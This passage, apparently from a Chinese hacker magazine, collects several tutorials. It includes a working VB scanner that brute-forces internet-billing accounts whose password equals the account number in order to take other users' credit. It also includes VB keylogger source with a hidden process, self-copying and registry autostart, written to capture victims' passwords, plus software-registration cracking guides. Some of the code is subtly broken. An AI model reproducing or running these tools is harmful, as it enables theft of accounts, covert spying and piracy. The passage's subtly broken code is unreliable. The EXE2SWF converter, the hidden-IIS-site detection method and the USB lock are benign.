无盘网吧的系统文件确实只在一块硬盘上，但只是主机的系统文件，并非每个工作站都共用它，而所有工作站的系统文件都是统一放在具有和自己编号一样的文件夹里（即有几个工作站就有几个对应的系统文件夹，彼此也相对独立），不然一台工作站挂了不就全都挂了吗？我们平时所操作的工作站端是采用了无盘网络技术的“网络映像”功能，所有对系统的修改删除甚至是病毒、木马，都将改写到指定的目录，但是系统文件并没有任何变化。这样，病毒或文件遭遇破坏后只需要删除改写后的文件即可。而那些所谓的“控制”也是很短暂的，一切在重启工作站后就解除了。这都是服务器上本身具有的批处理文件和一些维护的 EXE 程序在作怪的缘故。所以如果你真能入侵到服务器内部，拿到这些东西也是有一定研究价值的哦！不过也有的是由做盘的技术人员定期来维护的，这种恢复过程无需管理者去做。这也是现今为什么多半用还原软件和硬件都是运用在 XP 的网吧环境下的缘故。当然如果整个网吧都是你 DIY 的，那就另当别论了。

### 四、逻辑思维方面

看了上面所说的可能有人会问：“哇！那我看了那么多教程不都没有用了么？难怪我总是没什么收获。”当然不是，从大的环境讲别人并不是按照你的环境去破解的；从小的环境讲即使用的是同一个管理软件的同一个版本，也不可能完全一样，因为每个做盘的技术人员或多或少都有自己独到的一面。所以你更应该结合自己的情况去分析别人的教程才对。另外我们要认识到，防御和破解都是在进步的，不能用老的方法去对待一切事物，学会分析才会有发现。不过这里有一个很有趣的事情，就是把破解 98 无盘的方法移植到 XP 无盘中去，多半方法都能通过，反过来却不怎么管用。至于为什么呢，大家可以自己去想想！

### 五、小结

文章写到这里就结束了，可能还会有一部分读者不知道如何去做！别着急，我将在《终结篇》中给大家指出本文中对应的破解实例，让你们体验一下没有黑软，也能破网吧的真正乐趣！

> 编者语评：本文作者详细分析了当今网吧的环境，让读者在破解的时候做到知己知彼，并且本文对网络上流传的一般网吧破解方法进行了深入的剖析。读过本文，在深入地了解网吧环境之后，相信你以后在攻破网吧的时候一定会更加得心应手。


某人遇到了难事，便去寺庙里求观音。走进庙里，发现观音像前正好也有一个人在拜，那人长得和观音一模一样，丝毫不差。

这人问：“你是观音吗？”

那人答道：“我正是观音。”

这人又问：“那你为何还拜自己？”

观音笑道：“我也遇到了难事，但我知道，求人不如求己。”

故事虽短，道理却很深刻。天涯希望那些天天喊着找师傅、上培训班的朋友都能静下心来看杂志，明白求人不如求己的道理，一步一个脚印地成长。

## 打造密码扫描器“免费上网”

small rascal [S.C.T]&[A.V.T]

- 版本一定可以搭配
- 需对具体情况判断
- 一定要包你们行
- 用 VB 实现这些功能也可以

今天幸运之神特别照顾我，上网输入账号和密码都错了，竟然还能进去。不会吧，错了还能进？计费系统出错了？呵呵，我也是这么想的，立刻用计费系统的余额查询功能查看，这一查发现跳出来窗口中的名字竟然不是我的，看上去是一个 MM 的，即刻晕倒。

不会吧，我啥时变性了？（小编偷笑：自己变性了都不知道，嘿嘿！）莫非是系统出错了？退出系统，重新输入账号和密码登录，再查余额，对了，现在是我的名字了。那刚才是怎么回事呢？为了搞清事情缘由，就有了下面的故事。

再次退出系统，用残留的记忆重新输入了账号和密码，然后抬头看了下屏幕，原来，刚才是我把账号和密码都输错了！因为账号比较长，想偷懒，就把密码设成与账号相同的了，这样只要复制粘贴就可以了。然而今天打错的账号，竟然和密码也是相同的，由此才产生了这次“事件”。既然有人和我的想法一样，利用社会工程学设想一下，应该还有更多的账号存在这个“问题”。为了验证这个想法，就从我的账号开始往下推算、测试。果不其然，仅仅用了一分钟就已经猜到了两个这样的账号，概率相当大！既然如此，何不用程序来扫描一下，吃顿“免费”的上网大餐呢！说干就干。

## 一、具体分析 找出原因

首先要找到计费系统的服务器所在，这个应该难不倒大家吧。在本机找到计费系统的程序名称，通过进程即可看到其连接的远程服务器和打开的对应端口。我比较喜欢冰刃，因为平时玩病毒、木马用顺手了，而且功能相当强悍。打开它，点击左边工具列表中的端口图标，立刻会在右边显示出此刻所有进程连接的机器及打开的端口，如图1所示。


图1中被选中的三行就是计费系统的进程 elibclt.exe，其中 192.168.2.6 就是计费系统的服务器地址，对应的端口是 13333，使用的是 TCP 协议。有人或许会问，为什么不是其他两个？因为 0.0.0.0 是没有分配 IP 地址前，本机分给自己的一个网络保留地址，这个地址和其它机器不能通信，所以不可能是它。192.168.2.226 是我正在使用机器的 IP 地址。现在我们已经拥有了网络连接所必需的东西，下面就请出监听专家——IRIS。

打开 IRIS，首先要做的就是选择监听要用的网卡，这个就不多说了，一般机器就唯一的一块。为了监听后分析简单，需要设置监听过滤。点击左边工具列表中的 Filters 图标，会弹出过滤对话框。这里要说明一下，有些版本中的 IP 地址只能输入两位，也就是说 100 到 255 之间就没办法输入了。其实还是有办法的，选中上方的 IP 地址，直接拖入对应的 IP 地址输入框，然后选中要修改的那位进行修改，这样就可以输入 100 至 255 之间的数字了，图2所示的效果就是这么做的。


图2中设置的过滤作用是只监听本机（192.168.2.226）和服务器（192.168.2.6）之间的数据通信，其他的全部忽略。接着点击工具栏上的绿色箭头开始监听。现在我们选择注销系统，然后输入账号和密码再次登录计费系统，这样就能够获取本机与服务器之间的通信数据包了。等登录完成后立刻点击工具栏上的红色方块终止监听，这样就只监听了计费系统的数据包，最小化了分析过程。下面我们来看看本机与服务器计费系统是如何进行通讯工作的。


选中 Data: XX bytes，在右下方就能看到发送或者接收的数据包了。左边一栏是十六进制代码，右边则是对应的 ASCII 码。其中被选中的一段就是我们要的真正数据。

通过多次分析、尝试，发现上图中的 `<ELIB 1.0>1<L>1</ELIB>` 就是本机发给服务器要求登录的指令了。因为上面的数据包是注销过程，本文用不到，所以就不赘述了，有兴趣的朋友可以自己试试。下面用同样的方式看一下图4，`<ELIB 1.0>1<L>2</ELIB>` 是服务器返回来的同意登录的指令，和上一条就差一个字符。


图4 找到服务器允许登录的指令

上面两张图是说明了要求登录与允许登录的过程，其实这个过程完全可以用普通的 TCP 连接来代替。继续，下面可是分析的核心部分了，不过也很简单，还是利用上面的方法进行分析。如图5所示，发往服务器的指令是 `<ELIB 1.0>1<L>2200203727            00203727</ELIB>`，这里我们一个个来解释：`<ELIB 1.0>1<L>2` 和 `</ELIB>` 是指令的固定部分，不用管它；第二个 2 是指登录使用的账号是条形码号。顺便说一下，这个计费系统可以用证件号和条形码号两种方式登录，证件号对应的字符是 1，条形码号对应的则是 2；“00203727”就是账号了，总共 20 位长，但这里账号只有 8 位，所以后面用 12 个空格补足；剩下的 00203727 则是与该账号对应的密码。看到了吧，这里用的账号和密码是相同的。这条指令的完整功能是将账号和密码发往服务器。


图7 本机发往服务器要求正常登录的指令

到这里可以说已经正常登录了，但是我们一定还想知道账上的余额吧，那就看图8吧。这次总共接收了来自服务器 255 个字节，有用的部分是从 `<ELIB 1.0>1<M>` 开始，到 `</ELIB>` 为止，其中的 1.38 就是余额了。


图8 返回的余额信息


图5 登录的账号和密码指令

如图6所示，其中的 `<ELIB 1.0>1<L>3</ELIB>` 是服务器返回给本机允许登录的指令。图7中的 `<ELIB 1.0>1<R>1</ELIB>` 是本机发往服务器要求正常登录的指令。

至此，整个分析过程已经完成。要说明几点：其一，大多指令仅仅相差一个字符，但可谓是“差之毫厘，谬之千里”啊。其二，据我猜测，指令中的 L 代表登录指令，R 则代表账号正确，M 是指账上的余额。其三，要多注意 TCP 的数据包，往往会有意想不到的收获。好了，既然手工分析、测试已经完成，那么就让程序傻瓜式地自动完成猜解账号密码的过程吧。

## 二、设计成果 程序实现


图10 程序中各控件的属性（对象、Name、Caption、Text、Sorted 等）

先给出其界面与对应的各属性，这样更方便理解下面的程序，如图9、图10所示。

首先，代码要进行初始化，设置 Winsock 控件所使用的协议、远端服务器地址及其连接端口。若命令按钮标题是“开始”则连接，否则关闭连接。代码如下：

```vb
Private Sub cmdScan_Click()
    If cmdScan.Caption = "开始" Then
        cmdScan.Caption = "停止"
        sckScan.Protocol = sckTCPProtocol
        sckScan.RemoteHost = "192.168.2.6"
        sckScan.RemotePort = 13333
        sckScan.Connect
    Else
        cmdScan.Caption = "开始"
        sckScan.Close
    End If
End Sub
```

在连接过程中判断开始账号是否已经和结束相同或大于；否则判断开始账号长度是否等于指定长度，不足则前方补“0”，再将账号与密码组成指令发往服务器。代码如下：

```vb
Private Sub sckScan_Connect()
    If Val(txtEnd.Text) <= Val(txtStart.Text) Then
        Call cmdScan_Click
        MsgBox "结束号码比开始号码小，或者扫描结束", vbInformation
        Exit Sub
    End If

    If Len(txtStart.Text) < Val(txtLen.Text) Then
        txtStart.Text = String(Val(txtLen.Text) - Len(txtStart.Text), "0") & txtStart.Text
    End If

    sckScan.SendData "<ELIB 1.0>1<L>2</ELIB>"
End Sub
```

```vb
Private Sub sckScan_DataArrival(ByVal bytesTotal As Long)
    Dim ReceiveData As String
    Dim Money As Integer
    Dim EndFlag As Integer

    sckScan.GetData ReceiveData
    If ReceiveData = "<ELIB 1.0>1<L>3</ELIB>" Then
        sckScan.SendData "<ELIB 1.0>1<R>1</ELIB>"
    Else
        Money = InStr(1, ReceiveData, "") + 1
        EndFlag = InStr(Money, ReceiveData, "</ELIB>")
        If Money <> 1 Then lstResult.AddItem txtStart.Text & " " & Mid(ReceiveData, Money, EndFlag - Money)
        sckScan.Close
        txtStart.Text = Mid(Str(Val(txtStart.Text) + 1), 2)
        If Len(txtStart.Text) < Val(txtLen.Text) Then
            txtStart.Text = String(Val(txtLen.Text) - Len(txtStart.Text), "0") & txtStart.Text
        End If
        sckScan.Connect
    End If
End Sub
```

如果 Winsock 控件在连接或其他情况下出错，需要立即关闭并提示；程序退出时也要关闭 Winsock 控件。代码如下：

```vb
Private Sub sckScan_Error(ByVal Number As Integer, ByVal Description As String, ...)
    sckScan.Close
    MsgBox Description
End Sub

Private Sub Form_Unload(Cancel As Integer)
    sckScan.Close
End Sub
```

至此，设计过程也完成了。如图11所示，就是程序运行后检测到的账号与密码相同的账号及余额，效果不错吧！


## 三、写在最后

本文仅想以一个小小的想法抛砖引玉，不希望看到各位将本程序用于非法场合。最后，留下我的 Blog：`http://smallrascal.blog.tom.com`，欢迎各位常来坐坐喝喝茶。

> （文章中作者编写的 ScanLib v1.0 及其代码、冰刃、IRIS 都已收录在光盘中。）

【编者按】作者由一次偶然事件，进而分析原因、抓包分析数据包，搞清登录原理，再利用程序自动实现，思路清晰巧妙。不足之处是编写的程序只能针对作者的环境加以利用，不能任意修改以适用不同场合。但这是一个开端和想法，至于具体利用，按照作者思路，你也可以分析自己的环境加以发扬。

## 动手打造自己的黑客——键盘记录器

- 1. 对键盘记录功能的概述
- 2. 用 VB 实现记录器的功能
- 3. 编写 HACK 工具的一般步骤

看过了很多期 NoHack 杂志，里面很多程序都是用 VB 编写的，现在很多刚入门的读者都喜欢 VB。虽然它有很多缺点，如 API 声明过于繁琐、程序运行需要 VB 运行库的支持等，但它简单易学，很适合编程初学者，所以偶也写一篇文章送给所有看 NoHack 的 VB 迷们。

大家一定都用过很多黑客工具来辅助自己的行动吧，这次就送给大家一款键盘记录器的打造方法。按照这个思路，你可以打造一款自己的 keylogger。首先分析一下一个 keylogger 至少应该具备的功能，我认为应该有三个最基本的：

- 记录键盘、鼠标（这里一般是必要记录的）操作。
- 记录当前活动窗口，否则难知道你记录的东西是哪个程序中的。
- 具备 HACK 工具的基本特性——隐藏和自启动。

分析完了应具备的功能，我们就要考虑如何来编程实现了。这个程序主要是利用 GetAsyncKeyState 函数。使用 GetAsyncKeyState 可以获得键盘的动作。GetAsyncKeyState 函数根据虚拟键表判断按键的类型，返回值为一个 16 位的二进制数，如果被按下则最高位为 1。

```vb
Private Declare Function GetAsyncKeyState Lib "user32" (ByVal vKey As Long) As Integer
```

函数就先介绍这么多，后面用到的会在代码里加以说明，下面我们把需要的控件列出来：

- text1、text2：用来查看测试结果
- timer1：不断扫描，实现对键盘的记录操作
- timer2：用来定时保存到文件

OK，下面我们就其主要功能编程来实现。记录键盘的目的是用来获取被监控者的密码、隐私或知道他在做什么。当然，这需要知道对方是在什么程序下操作的，否则记录的只是一堆难以分析的字符，所以我们需要获知当前用户的活动窗口，其实现代码如下：

```vb
Private Sub Form_Load()
  App.TaskVisible = False
  If App.PrevInstance Then End
  currentwindow = GetCaption(GetForegroundWindow)
End Sub

Private Sub Timer1_Timer()
  If currentwindow <> GetCaption(GetForegroundWindow) Then
    currentwindow = GetCaption(GetForegroundWindow)
  End If
  Dim keystate As Long
  Dim Shift As Long
  Shift = GetAsyncKeyState(vbKeyShift)
  keystate = GetAsyncKeyState(vbKeyA)
End Sub
```

```vb
' 对大小写进行记录
If (CAPSLOCKON = True And Shift = 0 And (keystate And &H1) = &H1) Or _
   (CAPSLOCKON = False And Shift <> 0 And (keystate And &H1) = &H1) Then
    Text1 = Text1 + "A"
End If

If (CAPSLOCKON = False And Shift = 0 And (keystate And &H1) = &H1) Or _
   (CAPSLOCKON = True And Shift <> 0 And (keystate And &H1) = &H1) Then
    Text1 = Text1 + "a"
End If

' 对数字键的记录
keystate = GetAsyncKeyState(vbKey1)
If Shift = 0 And (keystate And &H1) = &H1 Then
    Text1 = Text1 + "1"
End If
If Shift <> 0 And (keystate And &H1) = &H1 Then
    Text1 = Text1 + "!"
End If
```

由上面的代码实现了键盘记录，下面我们就要实现定时将记录的内容保存到记录文件中，以便查看或发送到指定的邮箱，代码和注释如下：

```vb
Private Sub Timer2_Timer()
  Open "logfile" For Append As #1
  Write #1, Text1
  Close #1
  Text2.Text = Text2.Text + Text1.Text
  Text1.Text = ""
End Sub
```

OK，两个最基本的功能实现了，但是还不怎么符合 HACK 工具的特征：长久地为我们服务！为了让我们的程序能长久地为我们服务，我们需要让它实现自启动。在这里，我不仅修改了注册表，还把自身复制到启动文件夹和系统目录，代码和注释语句如下：

```vb
' 隐藏进程
Dim mypath As String
Dim r As Long
Dim keyhand As Long
Dim regfpath As String
regfpath = systempath & "\loger.exe"
currentwindow = GetCaption(GetForegroundWindow)
mypath = App.Path & "\" & App.EXEName & ".exe"
FileCopy mypath, regfpath
If App.EXEName <> "log" Then
  FileCopy mypath, Left(systempath, 3) & "Documents and Settings\All Users\开始菜单\程序\启动\log.exe"
End If

r = RegCreateKey(HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\Run", keyhand)
r = RegSetValueEx(keyhand, "sysin", 0, REG_SZ, ByVal regfpath, Len(regfpath))
r = RegCloseKey(keyhand)
```

> 编辑点评：文章简单介绍了作为键盘记录器应该具备的基本功能，进而用代码对其功能进行实现，过程清晰明了。看完文章，你是不是觉得自己动手写个键盘记录器也很简单啊？但是要提醒你的是，“看”和“写”是不一样的，最好的办法是亲自动手试一试。

## EXE2SWF 很简单

（C 语言实现版）


Flash 动画每个人都看过吧，也应该知道它有两种格式：一种扩展名为 .SWF，必须用 Flash 播放器或者支持 Flash 插件功能的浏览器才能打开；另一种是以 .EXE 为扩展名的文件，直接双击即可播放。在一些场合，后者给我们带来了很大的方便，不过有些场合就不合适了。比如你要把一个 Flash 通过网络与好友共享，但此时网速特别慢，而好友那边又有 Flash 播放环境。因为同样一个动画，EXE 和 SWF 格式相差近 1MB 大小。把 SWF 转为 EXE 文件，Macromedia 的 Flash 播放器就可以完成，但却没有提供 EXE 转为 SWF 的功能，那该如何转换呢？不用急，下文就给大家带来解决方案。

### 一、实际问题分析：找到对应关系

这里我准备了一个 SWF 和通过 Flash 播放器将其转换为 EXE 的文件，分别命名为 swf.swf 和 exe.exe。用 WinHex 打开文件，如图 1 所示。


在上图的文件头中没有发现相同的内容，我们试试用 swf.swf 的前 16 个字节的 16 进制字符作为关键字在 exe.exe 中进行查找，看看能不能找到。先选中 swf.swf 的第一行，单击右键，选择弹出菜单“编辑”中“复制选块”下的“16 进制数值”，也就是前 16 个字符；接着点击“搜索”菜单下的“查找 16 进制数值”，在弹出的对话框中单击右键，选择弹出菜单中的“粘贴”，将刚才复制的数值粘贴到文本框中，最后点击“确定”。稍等片刻，就能看到如图 2 所示的结果。


大家有没有发现，上图中倒数第二行，也就是 offset 为 000F1000H 的那行，内容就是右方“查找 16 进制数值”对话框中的数值。这就说明 swf.swf 文件可能仅仅被连接到某个文件的尾部而已。选中从这个位置（000F1000H）开始到文件末尾的所有字符后，单击右键，选择弹出菜单“编辑”中“复制选块”下的“进入新文件”，随后将这个文件保存为“new.dat”，如图 3 所示。


接下来，我们使用 Beyond Compare，对 new.dat 和 swf.swf 进行比较。在选择好文件比较后，单击“工具栏”的“向下”箭头，找到不同的地方，如图 4 所示。有的虫虫要问了，WinHex 不是也提供了文件比较吗，为什么不用它的？其实一开始我也是这么做的，但是在实际操作中发现，它只能提示文件大小不一样，而无法给出不同的位置，所以就选择了 Beyond Compare 这款以比较功能见长的软件。


在图 4 中可以看到不同处位于文件的末尾，且 new.dat 比 swf.swf 长。既然知道了不同之处，那还是用 WinHex 来查看下多了些什么东西吧。用 WinHex 分别打开 new.dat 和 swf.swf，都把滚动条拉到最后，可以看到 new.dat 的 00008704H 开始多了些字符。为了证明这些字符是不是在转为 EXE 文件的过程中产生的，我又试了几次，发现的确如此，而且还有一个“惊人”的发现：“56 34 12 FA”始终不变，这个可能是插入的分隔标志，其后的 4 个字节则每次都在变化，如图 5 所示。


图 5 查看 new.dat 的结尾处信息

这让我联想到每个 SWF 文件的文件大小不一定相同，那么这里存储的是否就是文件大小的 16 进制数值呢？选择 swf.swf，查看其属性，如图 6 所示。


图 7 在计算器中转化为  
图 6 查看 swf.swf 的属性

大家有没有发现什么？图 5 中，倒数第 3、4 个不就是吗！看来我猜得没错。那数字的顺序怎么不对呢？原来在内存或文件中，数据一般是按高位在后、低位在前存储的。这就对了，在 new.dat 中去掉这八个字节就完全正确了。现在知道了原理，还不赶快用程序来实现分解过程！

> 编程感悟

在程序的开始需要加载头文件，并判断参数对不对，不对就给出提示退出程序，对就给出版本信息继续，接着还要定义各个变量，同时给变量初始化，代码和详细的注释语句如下：

```c
// 定义头文件
#include <sys/stat.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// 主函数开始，获取参数
int main(int argc,char *argv[])
{
    // 判断参数是否正确
    if(argc!=3)
    {
        system("cls");
        printf("****************\n");
        printf("*Copyright smallrascal 2005.10.30!\n");
        printf("*Blog ==> http://smallrascal.blog.tom.com\n");
        printf("* ==> http://smallrascal.2005.blogchina.com\n");
        printf("****************\n");
        printf("%s EXE SWF\n",strupr(argv[0]));
        exit(0);
    }
    else
    {
        printf("****************\n");
        printf("*Copyright smallrascal 2005.10.30!\n");
        printf("*Blog ==> http://smallrascal.blog.tom.com\n");
        printf("* ==> http://smallrascal.2005.blogchina.com\n");
        printf("****************\n");
    }
```

```c
struct stat statbuffer; // 定义文件信息结构
char *exefilename,*swffilename,*swfbuffer; // 定义EXE、SWF文件名及SWF文件缓冲区等变量
unsigned int ch=0; // 定义SWF文件大小各个段变量
FILE *in,*out; // 定义EXE及SWF文件变量
int i,j; // 定义循环变量
unsigned long swfsize=0; // 定义SWF文件大小变量

// 传送EXE文件完整路径
exefilename=argv[1];
// 传送SWF文件完整路径
swffilename=argv[2];

// 用二进制方式打开EXE文件，并判断打开是否成功
if((in=fopen(exefilename,"rb"))==NULL)
{
    fprintf(stderr,"Cannot open input file.\n");
    exit(0);
}
// 获取EXE文件的文件信息
fstat(fileno(in),&statbuffer);

// 循环从EXE文件中获取SWF文件大小
for(i=0;i<4;i++)
{
    // 设置EXE文件位置为SWF文件大小的位置所在
    fseek(in,statbuffer.st_size-4+i,SEEK_SET);
    // 从文件获取一个字符
    ch=fgetc(in);
    if((ch>=0)&&(ch<=9))
        swfsize=swfsize+ch*(pow(16,2*i));
    else
        swfsize=swfsize+(ch%16)*(pow(16,2*i))+(ch/16)*(pow(16,2*i+1));
}
```

然后打开 EXE 文件，获取其文件大小，根据 EXE 文件大小得到 SWF 文件大小的 4 个字节，计算出 SWF 文件的 10 进制文件大小。

最后根据获得的 SWF 文件大小分配内存，从 EXE 文件中的 SWF 起始位置读，至末尾倒数第 9 个字节为止，将读入到缓冲区的内容写入 SWF 文件，同时关闭 EXE 和 SWF 文件，并返回系统。

```c
// 用获取的SWF文件大小为SWF文件缓冲区分配内存
swfbuffer=calloc(swfsize,sizeof(char));
// 以二进制写入的方式打开SWF目标文件，并判断打开是否成功
if((out=fopen(swffilename,"wb"))==NULL)
{
    fprintf(stderr,"Cannot open output file.\n");
    exit(0);
}
// 设置EXE文件位置为SWF文件的起始位置
fseek(in,statbuffer.st_size-swfsize-8,SEEK_SET);
// 读取SWF文件大小到SWF文件缓冲区
fread(swfbuffer,swfsize,1,in);
// 将SWF文件缓冲区中的内容写入SWF文件
fwrite(swfbuffer,swfsize,1,out);
// 关闭SWF文件
fclose(out);
// 关闭EXE文件
fclose(in);
// 程序返回
return 0;
```

到这里，一款 EXE2SWF 的程序就完成了，很小巧。有什么想法可以去论坛讨论！

（文章中用到的 WinHex、Beyond Compare 和作者写的程序 cxc2swf.exe 及其代码都已收录在光盘中。）

> 编程感悟：把编程用到实际生活中以解决问题是最能体现程序价值的方法，文章难度不大，思路清晰，步骤详细，采用 C 语言编写，体积小巧，大家在明白原理后可以试着用其他语言来实现其功能，活学活用，你的编程能力会得到很大提高。

## 找出 IIS 中隐藏的网站

采飞扬 [liuyes]

- 1. 建立虚拟目录
- 2. 修改 IIS 的执行权限
- 3. 发现隐藏目录
- 4. 删除隐藏目录

### 一、隐身幻术

在进入正题之前，我们先来看一下，入侵者是如何在我们的主机上建立隐藏网站的。打开 IIS 的管理器，选择一个文件夹，点击右键选择“资源管理器”，切换到网站的根目录，新建一个文件夹，这里取名为“liuqQ”，接着到“x:\windows\system32”里新建一个文件夹，取名“liuhack”，回到 IIS 管理器刷新即可看到“liuqQ”目录。选中“liuqQ”目录，点击右键“新建→虚拟目录”，将虚拟目录命名为“liuyes”，并指向“x:\windows\system32\liuhack”。


现在放个网页进去，在浏览器输入“http://ip/liuqQ/liuyes/index.asp”，如果 IIS 没有问题应该可正常浏览。接下来实现网站隐藏：删除刚建的“liuqQ”文件夹，刷新后网站仍可访问。

看，“liuqQ”这个目录已经没有了，这样我们隐藏网站的目的就达到了。

### 二、识别实体

相信大家照着上面的方法都成功了，下面我们看一下如何找出主机上是否有隐藏的网站。在站点名称上点击右键“属性”，在“主目录”标签中将“执行许可”由“纯脚本”改为“无”（或“脚本和可执行文件”），点击“应用”后可看到异常目录信息。前面的“liuqQ”是被删除目录，后面的“liuyes”是入侵者建立的“虚拟目录”别名。


在网站所在根目录新建“liuqQ”目录（依据图 3 情况），回到 IIS 管理器刷新即可看到隐藏目录，随后可将其删除。


最后，别忘了把图 2 中的设置改回来，否则网站可能无法浏览。后语：在实验中发现该隐藏网站方法对 WIN2003+SP1 无效。

> 编辑点评：利用修改网站执行权限时继承特性查找隐藏网站，方法较好。


## 用U盘打造电脑钥匙

马成

大家都知道，到银行的自动柜员机里去取钱一定要卡和密码，只有卡没有密码或只有密码而没有卡都是取不出钱来的。但是我们的电脑只要有登录密码就可以进，而不需要像“银行卡”这样的实物“钥匙”。今天我就来教大家打造自己的“钥匙”。首先我们必须要有一个U盘，U盘也比较便宜，这个U盘就是我们的“钥匙”。接下来我们要用到一个文件监视软件“Log Monitor”。然后在U盘里新建一个监视文件，文件类型随便，例如我建立一个名为 mc.txt 的记事本，然后安装并启动好 Log Monitor，单击工具栏上的“Add File”按钮，如图1。

单击“File to Monitor”后面的文件夹小图标，将U盘里的监视文件添加进来，还可以在“Description”里输入文件注释。现在就需要对U盘锁进行必要的设置，在“Conditions”选项卡中将“Do Action”设置为“If the file has been changed”选项，如图2。

再切换到“Options”选项卡中，将“Interval between check-ups(sec)”设置检查时间，以秒为时间单位，这里我设置的是2秒，如图3。

最后再切换到“Actions”选项卡，这里是操作的关键，单击“New”按钮，在弹出的菜单中选择“Execute Program”。在打开的“Action Configuration”中对“Execute Program”选项进行设置，单击“Command”后面的文件夹图标，将系统目录下的 rundll32.exe 添加进来，即“C:\WINDOWS\system32\rundll32.exe”，然后在“Parameters”中输入“user32.dll,LockWorkStation”参数，其他参数保持默认值，单击“OK”按钮保存设置。

好了，现在当我们离开时只要拔下U盘，到了我们设定的检查间隔时间，程序就会自动检测，当发现监控的文件没有了，也就是发生了变化，那么就立即将计算机锁定了。好了，我们的钥匙就打造好了，这样如果没有你的U盘，别人即使知道你的密码也同样玩不了你的电脑。怎么样？够酷吧！

> 编辑点评：作者的这个方法很妙。多数情况下我们用它监视服务器上文件的变化，可以快速判断是否有入侵或中木马等，但英文版本看得头疼，附上汉化版方便英文不好的朋友。

## 《黑客手册》QQ群黑板报

大家好！我是 Cass，很高兴与大家见面了。从小白手册接过QQ群管理的重任，深感责任重大。经过商量，特设立QQ群黑板报，在此公布上月各群的表现情况。虽然名为QQ群管理，但是实际上并不是去管理谁、领导谁的意思，因为首先我们就是希望建立自由的风格，其次各群也是由不同地方的热心读者友情建立起来的。所以QQ群管理的意思就是沟通交流，让信息能够有序流通，为《黑客手册》读者提供更多交流的良性平台。

- 1. 表扬：对于全国各地区群主的高度责任感，也感谢各群主对本人工作的大力支持，并感谢在大家热情帮助下，完成了QQ群平台搭建的第一步。下一步，我们将为QQ群、论坛、杂志互动策划相关的活动，请大家拭目以待，并能献计献策。
- 2. 批评：河南群群主（248107580，群号20167203）在群公告栏里，以建群为由向群内成员索要QQ币。这种行为我们绝对反对，特在此提出严重批评。所以，以后大家如发现任何打着安全名义进行非正常活动的事件，请及时跟我们联系。
- 3. 由于群资源有限，而读者众多，常常会出现群满现象，所以敬请读者谅解。不过，告诉大家一个方法：一个群满以后，并不一定随时都是满的，肯定会有群友退出，所以如果你很想加入某个群的话，可以隔一段时间再加加试试。

平日热热闹闹的校园变得空空荡荡，甚至还有些冷清的感觉，猛然想起5·1节到了，大家都出去旅游或者逛街了，外面肯定热闹得很。我也得出去感受下，要是运气好撞到谁的钱被挤掉的……嘿嘿！别那么自私嘛，要交给警察叔叔的^^。拿上包，带上 MP3，再顺手从书架上抓本 NoHack，拦个 BUS 跑到武汉最繁华的地方——江汉路步行街。哇塞，人真是多呀！先不急，吃点东西才有力气逛。买了碗热干面（注：武汉很有特色的小吃），一边闲逛一边吃，耳朵里听着杂志光盘中推荐的几首感觉很 cool 的音乐，感觉自由自在，很过瘾。

忽然感觉有点不对劲，猛回头，*※#◎~%……，竟然有人拉开了我包的拉链，晕，传说中的贼被我撞上了。嘿嘿！我得意地笑，幸好我包里没放钱，也没买东西，就一本杂志……HOHO~~。啊！亏了，偶的杂志不见了，寒呀！杂志也偷呀，难道小贼也喜欢俺们的杂志？算了，正好上面还有我签名，就当送给他作纪念了。

## OllyDbg 中文帮助

文件名：OllyDbg.hlp

MD5值：375d4bbe751f28e3f3bf7c5d2446c09a

翻译：TT小组

相信刚入门学 Crack 的朋友在被 OD 强大功能折服的同时，也会被它的英语帮助文档搞得晕头转向，叫苦连天。这个由 TT 小组翻译的 OD 帮助文档，包括了 OD 的安装、组件介绍和详细的使用说明。虽然我们提倡要与国际接轨使用英语，但这里还是把它作为一个参考奉献给大家。另外，这个文档中保留了大量的中英文对照，以方便使用 OllyDbg 英文版的用户。

## OD 教程入门篇

- ARTeam 站上的10篇OD教程，不过都是英文的，图文并茂，讲得比较详细，过程也很清晰，用实际例子解析OD的使用，可以作为OD新手的入门教程，格式如下：
- The Target, WorldTV 7.1 (http://www.netfor2.com/WorldTV.html)
- The Tools: OllyDbg 1.09d, PEiD 0.92, W32dasm, HexWorkshop 4.1
- The Protection: Serial Protection
- Other Information: ...

## 一、软件破解常用汇编指令

```text
cmp a,b    // 比较a与b
mov a,b    // 把b值送给a，使a=b
ret        // 返回主程序
nop        // 无作用
call       // 调用子程序，子程序以ret结尾
je或jz     // 相等则跳（机器码是74或84）
jne或jnz   // 不相等则跳（机器码是75或85）
jmp        // 无条件跳（机器码是EB）
jb         // 若小于则跳
ja         // 若大于则跳
jg         // 若大于则跳
jge        // 若大于等于则跳
jl         // 若小于则跳
pop xxx    // xxx出栈
push xxx   // xxx压栈
```

## 二、破解经典句式

```text
1（最常用）（??????代表一个具体的地址，下同）
mov eax [   ]
mov edx [   ]
call 00?????? 关键call
test eax eax
jz(jnz)或 jne(je) 关键跳转

2（最常用）
mov eax [   ]
mov edx [   ]
call 00?????? 关键call
jne(je)      关键跳转

3
mov eax [ ]
mov edx [ ]
cmp eax,edx
jnz(jz)

4
lea edi [   ]
lea esi [   ]
repz cmpsd
jz(jnz)

5
mov eax [     ]
mov edx [     ]
call 00??????
setz (setnz) al (bl,cl...)

6
mov eax [     ]
mov edx [     ]
call 00??????
test eax eax
setz (setnz) bl,cl...

7
call 00?????? ***
push eax (ebx,ecx...)
......
......
call 00??????
pop eax (ebx,ecx...)
test eax eax
jz(jnz)
```

## 破解0起步之天天电视6.07版实战篇

大家好，在上期我们复习了一些汇编的知识，又从两个 CRACKME 的具体操作中了解到一些破解的基本方法和流程。从这期开始，我会不断地用些比较经典的程序破解给大家看，你可以按照文章中的过程来做以提高自己的动手能力。今天要破解的程序是《天天电视6.07版本》，这个程序从5.29版开始网上就有个注册机，一直能用，直到6.07版出现，用它算出来的注册码就不正确了。所以这次我们的主要目标是：找出6.07版的注册码，对比5.29版的注册机程序，并把其修正为适合6.07版的注册机。

> 准备工具：PEiD，OD，MFC按钮消息入口查找工具（这个程序只对MFC程序有效）。

### Step 1：查壳

老规矩，先用 PEiD 看看程序是什么语言编写的、加的是什么壳等信息，直接用 PEiD 打开“天天电视.exe”，显示结果如图1所示。

### Step 2：找线索

从上面可以看到程序是用 VC++ 写的，没加壳，更适合我们新手做练习。运行程序后提示没有注册用户，只能用三分钟。点击注册时，发现原来的注册机被关掉，说明程序检测到注册机在运行并结束了它，这就是线索。

### Step 3：寻突破

